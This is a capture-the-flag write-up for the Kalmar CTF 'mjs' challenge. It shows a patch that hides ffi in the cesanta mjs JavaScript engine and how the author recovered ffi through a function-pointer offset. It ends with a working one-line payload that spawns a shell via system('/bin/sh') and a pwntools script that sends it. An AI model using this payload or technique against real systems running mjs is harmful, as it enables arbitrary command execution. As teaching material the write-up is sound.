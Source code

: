 ```yaml
---
title: "Kalmar CTF mjs"
tags: CTF Browser
style: border
color: warning
comments: true
description: kalmar ctf web browser exploitation challenge
---
```


# mjs
This web browser challenge provides a github repository, which can be found [here](https://github.com/cesanta/mjs), some browser binary and scripts, and a docker file.

### Remark
This was my first web browser exploitation. It includes, but not limited to, binary, javascript, and engine knowledge.
It took a bit to figure out the inner structures, how they worked together, and where to look at. 
However, once I figured out where to look at, the challenge became pretty straight forward and even seemed easy.

## Analysis
This challenge seems to be using a restricted javascript engine to restrict API calls, so I took a look at the repository to see which calls are allowed.
These are the API calls I can utilize. 
```javascript
print(arg1, arg2, ...);
load('file.js', obj);
die(message);
let value = JSON.parse(str);
let str = JSON.stringify(value);
let proto = {foo: 1}; let o = Object.create(proto);
'some_string'.slice(start, end);
'abc'.at(0);
'abc'.indexOf(substr[, fromIndex]);
chr(n);
let a = [1,2,3,4,5]; a.splice(start, deleteCount, ...);
let s = mkstr(ptrVar, length);
let s = mkstr(ptrVar, offset, length, copy = false);
let f = ffi('int foo(int)');
gc(full);
```

Unzipping the challenge file gives a python code that runs on the server that takes in user input and opens a subprocess ```./mjs``` and executes the input as a javascript code.

The usage of the mjs binary locally looks like:
```bash
./mjs ./test.js
```
where test.js is the javascript file that I want to execute locally.
So if my test.js looks like this:
```javascript
function hello() {
    print("hello world");
}

hello();
1;
```
Then the output will look like:
```bash
hello world
1
```

So I pretty much can execute arbitrary codes on the server as long as they comply with the restrictive engine/within the API list.

Taking a look at ```diff.patch```, it gives a pretty interesting info.
```markdown
diff --git a/Makefile b/Makefile
index d265d7e..d495e84 100644
--- a/Makefile
+++ b/Makefile
@@ -5,6 +5,7 @@ BUILD_DIR = build
 RD ?= docker run -v $(CURDIR):$(CURDIR) --user=$(shell id -u):$(shell id -g) -w $(CURDIR)
 DOCKER_GCC ?= $(RD) mgos/gcc
 DOCKER_CLANG ?= $(RD) mgos/clang
+CC = clang
 
 include $(SRCPATH)/mjs_sources.mk
 
@@ -81,7 +82,7 @@ CFLAGS += $(COMMON_CFLAGS)
 # NOTE: we compile straight from sources, not from the single amalgamated file,
 # in order to make sure that all sources include the right headers
 $(PROG): $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) $(TOP_HEADERS) $(BUILD_DIR)
-	$(DOCKER_CLANG) clang $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
+	$(CC) $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
 
 $(BUILD_DIR):
 	mkdir -p $@
diff --git a/src/mjs_builtin.c b/src/mjs_builtin.c
index 6f51e08..36c2b43 100644
--- a/src/mjs_builtin.c
+++ b/src/mjs_builtin.c
@@ -137,12 +137,12 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_load));
   mjs_set(mjs, obj, "print", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_print));
-  mjs_set(mjs, obj, "ffi", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call));
-  mjs_set(mjs, obj, "ffi_cb_free", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free));
-  mjs_set(mjs, obj, "mkstr", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr));
+  /* mjs_set(mjs, obj, "ffi", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call)); */
+  /* mjs_set(mjs, obj, "ffi_cb_free", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free)); */
+  /* mjs_set(mjs, obj, "mkstr", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr)); */
   mjs_set(mjs, obj, "getMJS", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_get_mjs));
   mjs_set(mjs, obj, "die", ~0,
@@ -151,8 +151,8 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_do_gc));
   mjs_set(mjs, obj, "chr", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_chr));
-  mjs_set(mjs, obj, "s2o", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o));
+  /* mjs_set(mjs, obj, "s2o", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o)); */
 
   /*
    * Populate JSON.parse() and JSON.stringify()
diff --git a/src/mjs_exec.c b/src/mjs_exec.c
index bd48fea..24c2c7c 100644
--- a/src/mjs_exec.c
+++ b/src/mjs_exec.c
@@ -835,7 +835,7 @@ MJS_PRIVATE mjs_err_t mjs_execute(struct mjs *mjs, size_t off, mjs_val_t *res) {
 
           *func = MJS_UNDEFINED;  // Return value
           // LOG(LL_VERBOSE_DEBUG, ("CALLING  %d", i + 1));
-        } else if (mjs_is_string(*func) || mjs_is_ffi_sig(*func)) {
+        } else if (mjs_is_ffi_sig(*func)) {
           /* Call ffi-ed function */
 
           call_stack_push_frame(mjs, bp.start_idx + i, retval_stack_idx);
```

The author commented out calls to mjs_set with ```ffi``` argument.

I looked up ffi and it gave me: Detailed info [here](https://hackage.haskell.org/package/threepenny-gui-0.9.4.0/docs/Foreign-JavaScript.html#:~:text=A%20JavaScript%20foreign%20function%20interface,used%20internally%20by%20the%20Graphics.)
```
"This module implements a web server that communicates with a web browser and allows you to execute arbitrary JavaScript code on it."
```

So my idea was, to pop a shell, I would need to call ```ffi``` to run C code and execute ```system```.

### Dynamic
I started interacting with mjs with gdb. 
Since I could call print, I can print addresses of functions like:
```javascript
print(print);
```
And within gdb, print is mjs_print and ffi is mjs_ffi_call, I figured out their actual names by referencing the souce in git repository.

I cannot call ffi directly, but I can call ffi using ```(print + offset)```, which I believe is the intended vuln. And I can calculate offset using gdb.

## Exploitation
The explotation is fairly simple, as we only have to call ffi using the right offset and the right calling convention, which was a bit tricky to figure out.

But locally, we just need one line:
```python
(print + 0x6ab0)('int system(char *)')('/bin/sh');
```

And for remote, we just supply "EOF" at the end to run.
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=remote('127.0.0.1', 10002)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
# gdb.attach(p)

sla('End with "EOF":\n', "print((print + 0x6ab0)('int system(char *)')('/bin/sh'));\nEOF")

p.interactive()
```
One line is all we need. 

## Notes
The exploitation logic isn't that complex. To solve this challenge, I had to learn some basic javascript and what to expect in terms of how the server behaves relating to my requests- which I believe is the fundamentals of web browser exploitation.

I think this was a fairly neat challenge for beginners of web browser exploitation. It also reminded me of seccomp and sandbox escaping challenges.

Thank you!

079
